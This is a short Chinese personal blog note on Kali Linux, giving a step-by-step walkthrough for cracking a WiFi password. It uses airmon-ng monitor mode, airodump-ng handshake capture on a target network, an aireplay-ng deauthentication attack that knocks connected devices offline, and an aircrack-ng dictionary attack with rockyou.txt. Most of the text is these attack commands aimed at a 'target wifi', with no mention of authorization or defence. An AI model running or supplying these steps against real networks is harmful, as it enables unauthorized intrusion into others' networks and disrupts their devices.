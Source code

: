```yaml
---
title: Kali-Linux学习笔记
description: 老爸想看看，所以总结一下
date: 2020-10-11 19:42:21
---
```


> Kali-Linux学习笔记

### 无线wifi密码-暴力破解

#### 工具

- 外部设备：无线网卡
- 操作系统：Kali-Linux-2020.3-vmware-amd64

### 步骤

1. 插入“无线网卡”

![](/images/2020-10-11-20-22-20.png)

![](/images/2020-10-11-19-58-25.png)

<!-- 2. 打开`终端`，输入`sudo -i`使用管理员权限 -->

2. 输入`iwconfig` 查看是否存在 `wlan0`

3. 开启监听 `sudo airmon-ng start wlan0`

4. 扫描附近的`wifi`，确定目标`wifi`的MAC地址`BSSID`及频道号`CH`

5. 监听目标wifi，尝试捕获目标wifi的握手包，输入`sudo airodump-ng wlan0mon -c <步骤4的CH> --bssid <步骤4的BSSID> -w <握手包存放位置，例如：~/Documents/wlan/wlan0mon>`，如同，取得已经与目标wifi建立连接的设备的`BSSID`及`STATION`

![](/images/2020-10-11-21-36-11.png)

6. 由于握手包是设备和wifi之间建立连接时所产生的，因此需要对已经建立与目标wifi连接的设备进行断网攻击（aireplay-ng -0），保留步骤4的终端，打开新终端进行断网攻击，输入：`sudo aireplay-ng -0 <攻击次数，例如：20> -a <步骤4取得的目标WiFi的BSSID> -c <步骤5取得的与目标wifi建立连接的某设备BSSID> wlan0mon`，如图，在最后两次攻击时，目标设置已经与目标wiif断开连接

![](/images/2020-10-11-21-54-21.png)

7. 等待步骤6的目标设备与目标wifi重新建立连接，其后，回到步骤5的终端，可以看到已经抓取到了握手包

![](/images/2020-10-11-21-59-56.png)

8. 因为已经抓取到握手包，所以无需再使用无线网卡，可以停止网卡的监听，输入：`sudo airmon-ng stop wlan0mon`

9. 握手包包含设备与wifi的建立连接的验证密钥，因此可对握手包进行暴力破解，输入：`sudo aircrack-ng -a2 -b <步骤4取得的目标WiFi的BSSID> -w <字典位置，例如：~/Documents/rockyou.txt> <握手包存放位置，若使用了步骤5的路径，则是：~/Documents/wlan/*.cap>`

![](/images/2020-10-11-22-30-12.png)

### tips

- 需要使用无线网卡，最好是能兼容linux免驱动的型号

- 由于是使用暴力破解的方式，因为破解wifi密码的重点在于字典上，需要字典足够大到能包含目标wifi密码，因此需要对字典进行迭代补充

